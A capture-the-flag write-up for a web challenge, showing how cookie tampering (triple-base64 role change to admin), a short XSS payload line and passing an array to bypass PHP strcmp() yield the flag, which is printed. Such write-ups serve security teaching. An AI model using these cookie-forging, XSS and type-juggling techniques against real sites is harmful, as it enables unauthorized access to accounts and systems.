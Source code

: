 # Reindeers and cookies
Web

## Challenge 

	You cannot cmp any cookie with Santa's cookies.

	Server: http://199.247.6.180:12008

	Authors: Milkdrop + Vlad

## Solution

A page with nothing special.

Let's look at the cookies

	curl -c - http://199.247.6.180:12008/
	...
	199.247.6.180	FALSE	/	FALSE	0	adminpass	MyLittleCookie%21
	199.247.6.180	FALSE	/	FALSE	0	cookiez	WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5

- `cookiez` is base64-encoded 3 times of `{"id":"2","type":"guest"}`

Change to admin and we see the output at the bottom.

	<body>
	<h1 style="text-shadow: 2px 2px #FFFFFF;">Santa loves cookies! Do you?</h1>
	<img style="margin-top:-20px" src="http://pngimg.com/uploads/cookie/cookie_PNG13697.png">
	</body>

	<h1 MyLittleCookie! class='wrong'>You got the admin password wrong :c<br></h1</h1>

Note that we can inject XSS using `adminpass`, but it has nothing to do with the exploit

	"><script>alert('XSS')</script><h1"

### Bypassing PHP strcmp()

From the challenge description, it has something to do with strcmp in PHP.

I refer to these writeup on PHP bypassing of strcmp:
- https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/
- http://danuxx.blogspot.com/2013/03/unauthorized-access-bypassing-php-strcmp.html

> In those writeups, strcmp is bypassed by passing an Array.
> 
> Hence, when comparing an array to a string, NULL is returned and it passed the `strcmp()== 0` check.

Doing the same in this challenge, I pass an array of `adminpass[]` in the cookies.

	# Using Python requests cookies
	del r.cookies['adminpass']
	r.cookies['adminpass[]'] = 'hi'

And we get the flag

	<body>
	<h1 style="text-shadow: 2px 2px #FFFFFF;">Santa loves cookies! Do you?</h1>
	<img style="margin-top:-20px" src="http://pngimg.com/uploads/cookie/cookie_PNG13697.png">
	</body>

	<h1 Array class='right'>Good job! Here's your flag:<br>X-MAS{S4n74_L0v35__C00kiesss_And_Juggl1ng!}</h1</h1>


## Flag

	X-MAS{S4n74_L0v35__C00kiesss_And_Juggl1ng!}
